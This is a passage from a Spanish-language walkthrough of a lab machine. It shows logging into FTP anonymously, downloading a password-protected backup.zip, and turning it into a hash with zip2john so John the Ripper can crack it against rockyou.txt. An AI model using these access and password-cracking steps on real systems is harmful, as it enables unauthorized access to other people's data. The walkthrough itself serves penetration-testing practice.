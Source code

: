 Donde vemos que está permitido loguearse por ftp con un usuario anónimo. Así que nos conectamos, utilizando el nombre de usuario `anonymous`:

```shell
sudo ftp <ip>
```

Una vez dentro, listamos los recursos con `ls`, y vemos un archivo *backup.zip* (aunque ya nos lo había mostrado nmap). Así que lo descargamos con `get backup.zip`.

```shell
ftp 10.129.112.32
Connected to 10.129.112.32.
220 (vsFTPd 3.0.3)
Name (10.129.112.32:naibu3): anonymous
331 Please specify the password.
Password:
230 Login successful.
[...]

ftp> ls
[...]
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.

ftp> get backup.zip
local: backup.zip remote: backup.zip
[...]
226 Transfer complete.
2533 bytes received in 0.04 secs (55.9253 kB/s)
```

Salimos con `exit` y descomprimimos el archivo. Sin embargo, descubrimos que requiere de una contraseña.

```shell
unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password: 
   skipping: index.php               incorrect password
   skipping: style.css               incorrect password
```

Para crackear el fichero utilizaremos *John the ripper*.

## Crackeando el fichero zip con john

Primero, debemos convertir el fichero en un hash con el módulo *zip2john*, para después lanzar john con el rockyou.txt:

```shell
zip2john backup.zip > hashes

ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```
